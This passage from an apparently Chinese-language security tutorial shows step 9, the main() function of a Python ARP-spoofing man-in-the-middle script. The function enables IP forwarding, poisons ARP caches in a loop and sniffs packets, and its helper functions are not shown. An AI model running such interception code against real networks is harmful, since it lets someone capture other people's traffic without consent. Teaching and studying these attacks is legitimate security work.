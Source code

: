 9.  现在我们将定义调用攻击的`main()`函数：

```
def main():
      setIPForwarding(True)    
      try:
          destinationMAC = getMAC(destination_ip, interface)
      except Exception as e:
          setIPForwarding(False)
          print(e)
          sys.exit(1)  
      try:
          sourceMAC = getMAC(source_ip, interface)
      except Exception as e:
          setIPForwarding(False)
          print(e)
          sys.exit(1) 
       while True:
          try:
              mitm(destination_ip, destinationMAC, source_ip, sourceMAC)
              sniff(iface=interface, prn=callBackParser,count=10)
           except KeyboardInterrupt:
              resetARP(destination_ip, source_ip, interface)
              break
       sys.exit(1)
   main()  
```

这将创建一个无限循环来设置攻击并嗅探数据包。